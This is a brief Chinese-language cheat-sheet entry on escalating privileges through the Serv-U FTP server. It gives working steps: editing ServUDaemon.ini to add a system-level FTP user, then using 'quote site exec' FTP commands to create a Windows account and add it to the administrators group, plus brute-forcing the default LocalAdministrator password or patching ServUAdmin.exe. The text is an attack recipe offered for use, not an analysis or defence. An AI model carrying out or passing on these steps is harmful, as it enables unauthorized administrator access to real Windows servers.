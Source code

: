 #### 有修改权限
1. 修改server-u默认安装目录下的ServUDaemon.ini配置文件，添加administrator/system权限的ftp用户
2. ftp远程连接该用户：
```shell
ftp http://www.xxx.com
```
3. 执行命令
```ftp
 quote site exec net user test test /add
 quote site exec net localgroup administrators test /add
```

#### 无修改权限
方法1：暴力破解server-u管理员密码（默认账号为：LocalAdministrator） 

方法2：十六进制打开ServUAdmin.exe文件（Server-u的管理程序）
利用server-u创建用户，提升权限
